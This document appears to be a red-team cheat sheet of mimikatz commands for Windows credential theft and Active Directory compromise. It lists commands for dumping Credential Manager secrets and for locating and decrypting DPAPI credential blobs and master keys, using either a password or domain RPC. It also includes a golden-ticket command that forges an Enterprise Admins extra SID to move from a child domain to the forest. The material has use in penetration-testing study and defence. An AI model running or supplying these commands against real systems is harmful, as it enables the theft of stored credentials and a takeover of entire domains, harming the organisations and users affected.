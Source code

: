 % mimikatz, dpapi, credman


## credman - List Credentials Manager
```
sekurlsa::Credman
```

## dpapi - check the file to get guidMasterKey
Seatbelt come in handy for enumerating credential blob files' location
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\<credfile>
```

## dpapi - find master key
```
$ mimikatz !sekurlsa::dpapi
```

## dpapi - use master key
sid : origin domain sid : Get-DomainSID -Domain domainname
sid : origin domain sid : Get-DomainSID -Domain domainname
```
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\<credfile> /masterkey:<masterkey>
```

## dpapi - Extract masterkey Administrator
```
mimikatz sekurlsa::dpapi
```


## dpapi - Extract masterkey with password
```
dpapi::masterkey /in:"C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SID>\<guidMasterKey>" /sid:<SID> /password:<password> /protected
```

## dpapi - Extract masterkey AD
```
dpapi::masterkey /in:"C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SID>\<guidMasterKey>" /rpc
```


% mimikatz, ad


## forest extra SID
sid : origin domain sid : Get-DomainSID -Domain domainname
sids :  ExtraSid value (Enterprise Admins SID) : parent SID	
```powershell
kerberos::golden /user:<user> /domain:<child_fqdn> /sid:<child_sid> /krbtgt:<krbtgt_ntlm> /sids:<parent_sid>-519 /ptt
```
